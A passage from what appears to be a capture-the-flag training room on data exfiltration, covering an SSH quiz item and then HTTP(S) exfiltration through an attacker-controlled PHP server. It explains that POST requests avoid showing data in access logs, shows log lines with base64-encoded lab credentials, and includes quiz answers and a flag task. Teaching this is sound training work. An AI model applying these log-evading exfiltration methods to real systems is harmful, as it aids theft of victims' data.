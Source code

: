 

All packets sent using the Data Exfiltration technique over SSH are encrypted! (T=True/F=False)
*T*

Replicate the steps to transfer data over the SSH client. Once you transfer the file successfully, hit Completed and move on to the next task!


###  Exfiltrate using HTTP(S) 

Before going further, ensure that you have the fundamental knowledge of network protocols before diving into this task and the upcoming tasks.

This task explains how to use the HTTP/HTTPS protocol to exfiltrate data from a victim to an attacker's machine. As a requirement for this technique, an attacker needs control over a webserver with a server-side programming language installed and enabled. We will show a PHP-based scenario in this task, but it can be implemented in any other programming language, such as python, Golang, NodeJS, etc.

HTTP POST Request

Exfiltration data through the HTTP protocol is one of the best options because it is challenging to detect. It is tough to distinguish between legitimate and malicious HTTP traffic. We will use the POST HTTP method in the data exfiltration, and the reason is with the GET request, all parameters are registered into the log file. While using POST request, it doesn't. The following are some of the POST method benefits:

    POST requests are never cached
    POST requests do not remain in the browser history
    POST requests cannot be bookmarked
    POST requests have no restrictions on data length

Let's login to theweb.thm.com machine using thm:tryhackme credentials and inspect the Apache log file with two HTTP requests, one for the GET and the other for the POST, and check what they look like!

```
Inspecting the Apache log file

           
			
thm@jump-box:~$ ssh thm@web.thm.com
thm@web-thm:~$ sudo cat /var/log/apache2/access.log
[sudo] password for thm:
10.10.198.13 - - [22/Apr/2022:12:03:11 +0100] "GET /example.php?file=dGhtOnRyeWhhY2ttZQo= HTTP/1.1" 200 147 "-" "curl/7.68.0"
10.10.198.13 - - [22/Apr/2022:12:03:25 +0100] "POST /example.php HTTP/1.1" 200 147 "-" "curl/7.68.0"
```

Obviously, the first line is a GET request with a file parameter with exfiltrated data. If you try to decode it using the based64 encoding, you would get the transmitted data, which in this case is thm:tryhackme. While the second request is a POST to example.php, we sent the same base64 data, but it doesn't show what data was transmitted.

The base64 data in your access.log looks different, doesn't it? Decode it to find the Flag for Question 1 below.
